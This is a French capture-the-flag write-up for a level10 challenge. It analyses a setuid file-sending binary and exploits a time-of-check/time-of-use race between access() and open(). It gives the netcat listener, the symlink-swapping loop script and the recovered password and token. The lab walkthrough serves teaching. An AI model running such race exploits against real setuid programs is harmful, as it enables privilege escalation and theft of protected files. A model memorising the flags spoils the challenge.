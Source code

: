 # level10

1. Fichiers trouvés dans `~/` :

```bash
token  level10
```

2) Analyse du fichier `token` et du binaire `level10`

Nous n'avons aucun droit sur `token`.
Nous allons donc inspecter le binaire : 
```bash
open
access
strerror
__libc_start_main
write
GLIBC_2.4
GLIBC_2.0
PTRh
UWVS
[^_]
%s file host
sends file to host if you have access to it
Connecting to %s:6969 .. 
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file .. 
Damn. Unable to open file
Unable to read from file: %s
wrote file!
You don't have access to %s
```
Plusieurs choses nous interesse : 
- - Le script permet d'envoyer un fichier auquel on a acces vers un host distant.
```bash
%s file host
sends file to host if you have access to it
```
- - Nous pouvont egalement voir que l'executable utilie `setuid` ce qui signifie qu'il s'executera avec les droits de `flag10`.


- - La faille est donc que `access()` utilise l'uid de l'utilisateur actuel, il faut donc reussir a changer le lien symbolique de `token` entre `access()` et `open()`.

3) Utilisation de l'executable :
- - Nous allons receptionner les fichier depuis un autre utilisateur en ecoute sur le port 6969 (information presente dans le retour de `strings`)
```bash
[...]
Connecting to %s:6969 ..
[...] 
```
- - Donc dans un autre terminal nous allons ecouter sur le port 6969 avce netcat :
```bash
nc -lv 6969
```

- L'utilisateur distant est donc entrain d'ecouter sur le port 6969.

4) Exploitation pour récupérer le password :

- Nous allons creer un lien symbolique vers le token :
```bash
ln -s /home/user/level10/token /tmp/link
```

- - Ensuite nous allons creer un script qui vas en boucle alterner la cible du lien symbolique vers un fichier useless ainsi que vers `token` tout en lancant en meme temps dans une autre boucle dans en attendant que ce que nous souhaitons ce produise.
```bash
echo "dummy" > /tmp/dummy

while true; do
    ln -sf /tmp/dummy /tmp/link 2>/dev/null
    ln -sf /home/user/level10/token /tmp/link 2>/dev/null
done &

while true; do
    ./level10 /tmp/link 127.0.0.1 >/dev/null 2>&1
done
```
```bash
#Link > Dummy
#access() OK
#Link > token
#open > token
```

```bash
nc -lv 6969
Connection from 127.0.0.1 port 6969 [tcp/*] accepted
.*( )*.
woupa2yuojeeaaed06riuj63c
```

- - `woupa2yuojeeaaed06riuj63c`

```bash
su flag10
woupa2yuojeeaaed06riuj63c
```
5) Token decouvert : 

```bash
feulo4b72j7edeahuete3no7c
```



